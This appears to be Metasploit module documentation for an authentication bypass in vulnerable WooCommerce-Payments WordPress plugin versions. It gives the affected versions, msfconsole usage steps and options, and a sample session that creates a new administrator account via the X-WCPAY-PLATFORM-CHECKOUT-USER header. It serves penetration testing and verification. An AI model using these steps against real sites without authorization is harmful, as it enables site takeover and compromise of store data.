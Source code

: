 ## Vulnerable Application
WooCommerce-Payments plugin for Wordpress versions 4.8 prior to 4.8.2, 4.9 prior to 4.9.1,
5.0 prior to 5.0.4, 5.1 prior to 5.1.3, 5.2 prior to 5.2.2, 5.3 prior to 5.3.1, 5.4 prior to 5.4.1,
5.5 prior to 5.5.2, and 5.6 prior to 5.6.2 contain an authentication bypass by specifying a valid user ID number
within the `X-WCPAY-PLATFORM-CHECKOUT-USER` header. With this authentication bypass, a user can then use the API
to create a new user with administrative privileges on the target WordPress site IF the user ID
selected corresponds to an administrator account.

### Install

Download, install, and activate [woocomerce-payments 5.6.1](https://downloads.wordpress.org/plugin/woocommerce-payments.5.6.1.zip)

No configuration is required, and one does not need to install the main WooCommerce platform itself.

## Verification Steps

1. Install the plugin
1. Start msfconsole
1. Do: `use auxiliary/scanner/http/wp_woocommerce_payments_add_user`
1. Do: `set username [username]`
1. Do: `set rhosts [ip]`
1. Do: `run`
1. A new WordPress administrator account should be created.
1. Verify the new account uses the username and password specified in the USERNAME and PASSWORD datastore options respectively.

## Options

### USERNAME

The username to create. Default is `msfadmin`.

### PASSWORD

The password for the user. Default is to create a random one.

### EMAIL

The email address for the user. Default is to create a random one.

### ADMINID

The user ID number for a WordPress administrator. Defaults to `1`.

## Scenarios

### VWooCommerce Payments 5.6.1 on Wordpress 6.2.2

```
msf6 > use auxiliary/scanner/http/wp_woocommerce_payments_add_user 
msf6 auxiliary(scanner/http/wp_woocommerce_payments_add_user) > set rhosts 1.1.1.1
rhosts => 1.1.1.1
msf6 auxiliary(scanner/http/wp_woocommerce_payments_add_user) > set username h00die
username => h00die
msf6 auxiliary(scanner/http/wp_woocommerce_payments_add_user) > set verbose true
verbose => true
msf6 auxiliary(scanner/http/wp_woocommerce_payments_add_user) > exploit
[*] Running module against 1.1.1.1

[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking /wp-content/plugins/woocommerce-payments/readme.txt
[*] Found version 5.6.1 in the plugin
[+] The target appears to be vulnerable.
[*] Attempting to create an administrator user -> h00die:lWqD3BOer3AFZ (willie.miller@iwuxphff.qiawqio9t.gov)
[+] User was created successfully
[*] Auxiliary module execution completed
```
